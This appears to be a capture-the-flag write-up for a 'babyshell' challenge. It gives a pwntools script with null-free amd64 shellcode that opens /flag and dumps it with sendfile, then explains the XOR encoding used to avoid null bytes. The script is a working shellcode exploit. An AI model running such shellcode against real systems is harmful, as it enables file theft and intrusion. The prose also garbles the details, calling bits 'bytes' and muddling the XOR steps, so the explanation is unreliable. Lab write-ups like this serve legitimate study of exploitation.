 hence cool script I made:

```python
from pwn import *

p = process("/challenge/babyshell-level-3")
context.arch = 'amd64'

shellcode = asm(f'''

mov rbx, 0x101010101010101
push rbx
mov rbx, 0x101010101010101 ^ 0x00000067616c662f
xor [rsp], rbx

xor rax, rax
mov al, 2
xor rsi, rsi
mov rdi, rsp
syscall

xor rdi, rdi
mov dil, 1
mov rsi, rax
xor rdx, rdx 
mov al, 40               
mov r10b, 230
syscall                  

xor rax, rax
mov al, 60
syscall
''')


p.sendline(shellcode)
p.interactive()
```

The first part of our code is altering our flag format. Loads the big pattern hex string into rbx which is then pushed onto the stack. The XOR operation with this will flip certain bits between these two values, resulting in a new value that contains the address /flag (modified as needed for the context). The result of this XOR operation is stored back in rbx. The next instruction performs an XOR operation between the value at the memory address pointed to by rsp (the stack) and the value in rbx. The value at [rsp] is 0x101010101010101, which was the value pushed earlier. The rbx register now contains the XORed result (probably something like 0x67616c662f), which is ``/flag``, hence 0 null bytes :D.


Now the next part essentially xors rax byitself causing it to become 0. We then Move 2 into the lower 8 bytes of al causing no null bytes to occur. This is because the other 56 bytes remain unchanged hence not nullified. We then do the same for rsi which is one of our arguments.
We then move the current value in rsp to rdi to which it does a system call for open with our payload of ``/flag``. 
